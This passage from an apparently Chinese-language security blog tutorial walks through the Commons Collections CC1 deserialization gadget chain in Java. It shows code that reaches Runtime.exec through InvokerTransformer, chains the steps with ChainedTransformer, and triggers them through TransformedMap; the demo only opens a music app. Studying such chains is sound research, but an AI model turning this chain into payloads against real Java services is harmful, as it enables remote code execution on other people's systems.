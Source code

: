![image-20250217221429789](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217221429835.png)

这里我们可以直接使用InvokerTransformer来反射调用Runtime，成功弹出app

```java
Method getRuntime =(Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
Runtime currentRuntime = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(getRuntime);
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/NeteaseMusic.app"}).transform(currentRuntime);
```

![image-20250217221609057](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217221609129.png)

然后我们来看chainedTransformer类，它的transform方法传入的参数是一个数组时，会调用每一个参数的transform方法，前一个参数调用tranform的返回值会作为下一个参数调用transform的参数

![image-20250217203624746](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217203624785.png)

可以使用chainedTransformer将上面三部分InvokerTransformer来反射调用Runtime包裹起来，再调用transform

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/NeteaseMusic.app"})
});
chainedTransformer.transform(Runtime.class);
```

![37B0628D-DADF-418E-BD3B-2587B0D95BF7](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217222007063.png)

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/NeteaseMusic.app"})
        });
//        chainedTransformer.transform(Runtime.class);
        HashMap Map = new HashMap();
        Map<Object,Object> transformedMap = TransformedMap.decorate(Map,null,chainedTransformer);
        Map.put("aaa","bbb");
        for (Map.Entry entry:transformedMap.entrySet())
        {
            entry.setValue(Runtime.class);
        }
```
